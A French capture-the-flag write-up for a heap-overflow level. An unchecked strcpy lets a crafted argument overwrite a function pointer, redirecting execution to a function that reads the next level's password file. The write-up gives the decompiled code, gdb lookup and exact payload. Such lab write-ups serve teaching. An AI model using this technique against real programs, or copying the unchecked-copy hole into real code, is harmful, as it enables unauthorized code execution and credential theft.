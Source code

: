 # Level 6 - Heap overflow

## 1. Analyse du binaire
```c
int n()
{
  return system("/bin/cat /home/user/level7/.pass");
}

int m()
{
  return puts("Nope");
}

int main(int argc, const char **argv)
{
  char *v5;
  int (**v4)(void);

  v5 = (char *)malloc(0x40);      // malloc 64 bytes
  v4 = malloc(4);                 // malloc 4 bytes pour stocker un pointeur de fonction
  *v4 = m;                        // stocke l'adresse de m() dans v4
  strcpy(v5, argv[1]);           // copie l'argument dans v5 sans vérification de taille
  return (*v4)();                // appelle la fonction pointée par v4
}
```

## 2. Vulnérabilité
- `strcpy()` est utilisé sans vérification de taille
- On peut déborder du premier buffer (`v5`) pour écraser le pointeur de fonction dans `v4`
- Le programme appelle la fonction pointée par `v4` à la fin

## 3. Exploitation
1. Trouver l'adresse de la fonction `n()` :
```bash
(gdb) p n
$1 = {<text variable, no debug info>} 0x8048454 <n>
```

2. Trouver la taille exacte du padding par fuzzing :
```bash
./level6 $(python -c 'print "A"*64')    # Taille du premier malloc
./level6 $(python -c 'print "A"*68')    # Test
./level6 $(python -c 'print "A"*72')    # Crash - on a trouvé la bonne taille
```

3. Construction de l'exploit :
- 72 bytes de padding pour atteindre `v4`
- Adresse de `n()` (0x8048454) en little-endian

```bash
./level6 $(python -c 'print "A"*72 + "\x54\x84\x04\x08"')
```

## 4. Explication
1. Les 72 premiers bytes :
   - 64 bytes remplissent le buffer alloué par le premier malloc
   - 8 bytes supplémentaires pour atteindre l'adresse stockée dans `v4`
2. Les 4 derniers bytes ("\x54\x84\x04\x08") :
   - Écrasent le pointeur de fonction dans `v4`
   - Contiennent l'adresse de `n()` en little-endian
3. Quand le programme exécute `(*v4)()` :
   - Au lieu d'appeler `m()`
   - Il appelle `n()`
   - Qui affiche le contenu de `/home/user/level7/.pass`